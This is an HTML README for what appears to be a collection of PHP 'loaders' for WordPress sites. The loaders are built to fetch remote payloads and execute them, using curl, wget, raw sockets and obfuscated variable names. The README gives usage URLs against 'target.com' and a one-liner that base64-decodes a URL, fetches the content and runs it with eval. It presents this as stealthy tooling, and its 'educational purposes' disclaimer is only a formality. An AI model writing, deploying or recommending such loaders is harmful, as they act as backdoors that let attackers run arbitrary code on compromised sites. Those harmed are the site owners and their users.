 <!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
</head>
<body>

  <h1>🌀 WP-Loader Collection — Universal PHP Loaders</h1>
  <p><strong>🔥 Universal PHP loader collection</strong> created by 
    <a href="https://github.com/6ickzone" target="_blank">0x6ick</a>.  
    This repository contains different types of loaders (multi-mode, one-liner, stealth) designed to fetch and execute remote payloads.</p>

  <p><strong>⚠️ Disclaimer:</strong> This tool is provided for educational and research purposes only.  
  Any misuse or illegal activity is not the responsibility of the author.</p>

  <hr>

  <div class="section">
    <h2>📂 Repository Structure</h2>
    <pre><code>/loader/wp-loader.php    # Main multi-mode loader panel
/loader/b64loader.php           # One-liner base64 loader
/loader/loadman.php             # Stealth loader (cURL + file_get_contents) with Mandarin variables
/docs/                   # Optional per-mode documentation
</code></pre>
  </div>

  <div class="section">
    <h2>✨ Available Loaders</h2>
    
    1. wp-loader.php
Multi-mode loader panel with the following modes:
- curl → Loader using cURL
- curlman → Refactored curl loader
- tmp → Temporary file-based loader
- cache → Loader with cache mechanism
- curlv2 → Alternative curl loader
- wget → wget/curl + include method
- socket → Raw socket GET loader
- telegram → Author contact info

Usage:
http://target.com/wp-loader.php?mode=curl


     2. b64loader.php
One-liner base64 loader
- Decodes a URL from base64 → fetches → executes via eval
- Extremely short and stealthy

Example snippet:
<?= @eval("?>".file_get_contents(base64_decode("..."))); ?>


     3. loadman.php
Stealth loader with Mandarin style
- Function and variable names in Chinese characters (汉字)
- Flow: cURL → fallback to file_get_contents → eval
- Error output: "加载失败 (Failed to load)"

Usage:
http://target.com/loadman.php

  </div>

  <hr>

  <div class="section">
    <h2>📜 License</h2>
    <p><a href="http://www.wtfpl.net" target="_blank">WTFPL v2</a></p>
    <pre><code>
            DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE
                    Version 2, December 2004

 Copyright (C) 2004 Sam Hocevar <sam@hocevar.net>

 Everyone is permitted to copy and distribute verbatim or modified
 copies of this license document, and changing it is allowed as long
 as the name is changed.

            DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE
   TERMS AND CONDITIONS FOR COPYING, DISTRIBUTION AND MODIFICATION

  0. You just DO WHAT THE FUCK YOU WANT TO.
</code></pre>
  </div>

  <div class="section">
    <h2>👤 Author</h2>
    <ul>
      <li><strong>0x6ick - 6ickzone</strong></li>
      <li>Telegram: <a href="https://t.me/Yungx6ick" target="_blank">@Yungx6ick</a></li>
    </ul>
  </div>

</body>
</html>
